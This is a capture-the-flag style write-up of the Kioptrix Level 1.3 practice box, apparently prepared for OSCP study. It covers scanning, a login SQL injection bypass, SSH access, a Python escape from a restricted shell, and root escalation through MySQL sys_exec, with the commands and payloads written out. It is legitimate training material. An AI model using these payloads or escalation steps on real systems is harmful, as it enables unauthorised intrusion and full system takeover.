


# OSCP Vulnhub Set 1 - Kioptrix: Level 1.3 (#4)

Lab link: http://ccmtlab.ccmt.home.arpa:8888/user/missions/boxes?uuid=f203afd5-8c42-4834-984f-c353345e231e

Target IP: `10.101.85.14`

---

## Scanning and Enumeration

### Nmap

Scan all TCP ports on the target.

```
nmap -p- 10.101.85.14
```

The target has SSH, HTTP, and SMB services exposed.

```
┌──(kali㉿kali)-[~/Desktop/ccmtlab/04]
└─$ nmap -p- 10.101.85.14
Starting Nmap 7.99 ( https://nmap.org ) at 2026-05-17 23:08 -0400
Nmap scan report for 10.101.85.14
Host is up (0.0031s latency).
Not shown: 39528 closed tcp ports (reset), 26003 filtered tcp ports (no-response)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 42.41 seconds
```

Open the website in a browser.

```
http://10.101.85.14
```

The site presents a login page.



---

### Gobuster

Use Gobuster to enumerate web directories.

```
gobuster dir -u http://10.101.85.14 -w /usr/share/wordlists/dirb/common.txt
```

The scan found several directories and a possible username hint.

```
┌──(kali㉿kali)-[~/Desktop/ccmtlab/04]
└─$ gobuster dir -u http://10.101.85.14 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.101.85.14
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
.htpasswd            (Status: 403) [Size: 328]
.htaccess            (Status: 403) [Size: 328]
.hta                 (Status: 403) [Size: 323]
cgi-bin/             (Status: 403) [Size: 327]
images               (Status: 301) [Size: 352] [--> http://10.101.85.14/images/]
index                (Status: 200) [Size: 1255]
index.php            (Status: 200) [Size: 1255]
john                 (Status: 301) [Size: 350] [--> http://10.101.85.14/john/]
logout               (Status: 302) [Size: 0] [--> index.php]
member               (Status: 302) [Size: 220] [--> index.php]
server-status        (Status: 403) [Size: 332]
Progress: 4613 / 4613 (100.00%)
===============================================================
Finished
===============================================================
```

The `john` page likely indicates a valid username.

---

## Exploitation

### SQL Injection

Bypass the login form using SQL injection.

```
' or '1'='1
```

The payload successfully logged in and revealed a password.



---

### SSH Access

SSH is available on port 22.

```
ssh john@10.101.85.14
```

The server uses legacy host key algorithms, so the connection must be forced to `ssh-rsa`.

```
ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa john@10.101.85.14
```

The login succeeded with the discovered credentials.

```
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
john@10.101.85.14's password:
Welcome to LigGoat Security Systems - We are Watching
== Welcome LigGoat Employee ==
LigGoat Shell is in place so you  don't screw up
Type '?' or 'help' to get the list of allowed commands
john:~$
```

---

## Shell Restriction Bypass

### Restricted Shell

The SSH session is limited by a custom shell that only allows a few commands.

```
?
```

The allowed commands are:

```
cd  clear  echo  exit  help  ll  lpath  ls
```

Standard shell commands are blocked.

```
id
*** unknown command: id
whoami
*** unknown command: whoami
echo $SHELL
*** forbidden path -> "/bin/kshell"
```

---

### Bypass Technique

Use a Python shell escape to bypass the restricted shell.

```
echo os.system('/bin/bash')
```

This returns a normal shell prompt.

```
john@Kioptrix4:~$ id
uid=1001(john) gid=1001(john) groups=115(admin),1001(john)
```

---

## Privilege Escalation

### User Enumeration

Inspect `/etc/passwd` to identify system accounts.

```
cat /etc/passwd
```

The system includes `root`, `loneferret`, `john`, and `robert`.

---

### Root-Owned Services

Review running root processes for interesting services.

```
ps aux | grep root
```

MySQL is running as root, which is a promising escalation vector.

---

### MySQL Credentials

A web application file contains MySQL credentials.

```
cat /var/www/checklogin.php
```

The application connects to MySQL as root with an empty password.

---

### MySQL Privilege Escalation

Log in to MySQL as root.

```
mysql -u root
```

Use MySQL to add `john` to the admin group.

```
use mysql;
select sys_exec('usermod -a -G admin john');
exit
```

The command executed successfully.

---

### Root Shell

Escalate to root using sudo.

```
sudo su -
```

The user `john` now has root access.

```
root@Kioptrix4:~#
```

## Conclusion

Remote SQL injection revealed a valid user account and password. Legacy SSH negotiation and a restricted shell were bypassed, and MySQL root access enabled privilege escalation to `root`.
